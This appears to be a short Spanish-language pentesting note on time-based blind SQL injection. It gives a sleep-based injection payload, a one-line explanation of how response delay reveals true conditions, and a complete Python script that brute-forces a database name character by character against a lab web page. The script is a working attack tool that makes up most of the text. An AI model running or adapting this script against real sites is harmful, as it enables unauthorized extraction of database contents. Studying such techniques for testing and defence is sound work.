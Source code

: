 ```sql
1' and sleep(5)-- -
```

>Si usamos and y la query de sleep(5) si lo que estemos proporcionando es true por ejemplo (id = 1) tardará en mostrar resultado 5 segundos y si no es true lo mostrará instantáneo.

### Script en python para fuerza bruta en inyección basada en tiempo

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
from pwn import * 

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1);

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.1.36/cat.php"
characters = string.printable

def makeSQLI():

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Datos extraídos")

        extracted_info = ""

        for position in range (1, 350):
                for character in characters:

                        sqli_url = main_url + "?id=1 and if(substr(database(),%d,1)='%s',sleep(0.5),1) " % (position, character) 

                        p1.status(sqli_url)

                        time_start = time.time()

                        r = requests.get(sqli_url)

                        time_end = time.time()

                        if time_end - time_start > 0.5:
                                extracted_info += character
                                p2.status(extracted_info)
                                break

if __name__ == '__main__':

        makeSQLI()
```